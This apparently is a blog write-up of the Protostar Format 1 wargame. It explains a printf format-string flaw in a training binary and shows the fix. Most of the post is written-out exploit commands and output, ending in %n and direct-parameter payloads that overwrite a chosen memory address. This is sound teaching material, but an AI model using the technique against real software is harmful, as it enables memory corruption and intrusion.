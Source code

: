```yaml
---
title: "Exploit Exercises - Protostar Format 1"
date: "2012-01-30T18:12:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-format-1.html"
---
```


Following the Format 0 challenge, I've had to do a bunch of reading on how format string exploits work on a very low level. 

Some resources that I've found greatly useful: 

* [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />
* [Exploiting Format String Vulnerabilities](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* [SecurityTube.net Format String Vulnerabilities Megaprimer](http://www.securitytube.net/groups?operation=view&groupId=3)

With this challenge, we're given some c code in which we are to find the vulnerability.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
 printf(string);

 if(target) {
  printf("you have modified the target :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

If you notice, there is a string format vulnerability inside the "vuln" function.  It is doing a "printf" of a string directly provided by the user.  To prevent this vulnerability, this line should read: 

```
printf("%s", string);
```

The first step of exploiting this vulnerability, would be to find the address of "target", so that we can modify it. 

```
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss   00000004              target
```

The next step, is to find the direct reference in the stack to the command argument we enter.  To do this, we can simply spam "%x", since that pops the next word off of the stack.  If we do it multiple times, eventually we'll get to where the argument is located.  I chose to do it 150 times, guessing it would be less than that. 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAAAAAA`perl -e 'print "%x."x150'`
AAAAAAAA804960c.bffff628.8048469.b7fd8304.b7fd7ff4.bffff628.8048435.bffff7f0.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6a8.b7eadc76.2.bffff6d4.bffff6e0.b7fe1848.bffff690.ffffffff.b7ffeff4.804824d.1.bffff690.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6a8.8570f76f.af24e17f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6d4.8048450.8048440.b7ff1040.bffff6cc.b7fff8f8.2.bffff7e6.bffff7f0.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7cb.1f.bffffff2.f.bffff7db.0.0.0.cf000000.4b112951.96083d4e.8dce3d07.69b25f71.363836.0.2f2e0000.6d726f66.317461.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

If you look at that output, you'll see each byte in the stack, separated by periods.  Eventually, you should see "41414141", since the 150 number was enough.  This points to the "AAAAAAAA" we entered at the beginning of the argument.  I often find it easy to do 8 "A"s instead of 4, in case the byte is split up, and not aligned properly, giving something like "41411234.5678414141". 

Counting in, it looks like it was 128 bytes into the stack to get to.  Just to verify, let's try a little more precisely: 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAA`perl -e 'print "%x."x128'`%x
AAAA804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.77ba880e.5dee1e1e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.3b000000.34e9adc8.e1b8c42b.3212319e.690884e6.363836.0.0.2f2e0000.6d726f66.317461.41414141
```

That verifies that no additional padding needs to be done, the last word is reading perfectly. 

Next, instead of passing "AAAA" (or 0x41414141) as the address, we'll try using the address of "target": 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%x
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.b623f0ae.9c7766be.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.98000000.88091ce4.7be8a4e7.30f01468.69a9fa50.363836.0.0.2f2e0000.6d726f66.317461.8049638
```

Note that the initial 0 is missing, but that's ok.  It seems that worked as well, so let's tell it to overwrite the memory address instead of just printing it to the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%n
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.a61b35ff.8c4fa3ef.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.48000000.eacde3e8.ce402cfb.689377d6.699e12c7.363836.0.0.2f2e0000.6d726f66.317461.you have modified the target :)
```

There you have it.  We modified the value, which made the application output "you have modified the target :)" 

As a bonus solution, I found you can also use Direct Parameter Access, and solve it with a lot less junk on the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08"'`%128\$n
8you have modified the target :)
```
